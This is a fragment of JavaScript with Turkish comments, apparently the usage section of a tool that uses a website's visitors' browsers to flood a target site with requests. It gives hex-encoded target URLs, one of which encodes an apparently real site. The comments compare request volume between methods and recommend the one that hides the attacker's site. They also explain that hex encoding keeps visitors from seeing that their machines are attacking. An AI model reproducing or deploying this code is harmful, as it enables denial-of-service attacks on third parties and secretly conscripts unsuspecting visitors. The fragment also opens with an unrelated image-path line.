   // şimdilik kullanım dışı, image file atak <br><br>
  //ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','base64'); // base64 file<br><br>
  //ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','file'); // direk file<br><br>
  // note: istekler karşılıksız olsada atak yapmaktadır.!!!<br>
  // şimdilik kullanım dışı, image file atak.<br><br><br><br>
 
 

  // # Kullanıma uygun örnekler<br><br><br><br>

  // 1-<br>
  //tek('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür.<br><br>


  // 2-<br>
  //cok('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür. tek() fonksiyonundan farklı karşı tarafa çok daha yüksek byte ile saldırır, fakat bu yavaşlık yaratabiir. tek() kullanımı önerilen örnektir.<br><br><br><br>

  // 3- önerilen yöntem. karşı tarafta Saldıran sadece ziyaretçi ip adresi olarak görünür.<br><br>
  // örnek: site adresi = https://www.yoursitename.com/index.php?q= <br><br>
  // bu adresi str to hex yapınız 68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d
  istek_img('68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d','1');<br><br>
  // bu saldırı yönteminde site adresiniz asla gözükmez. artı olarka strtohex kullandığınız için ziyaretçi sayfa kaynağını görüntülesede kendi bilgisayarının saldırı amaçlı kullanıldığını fark edemez.<br><br><br><br>

  // # Kullanıma uygun örnekler
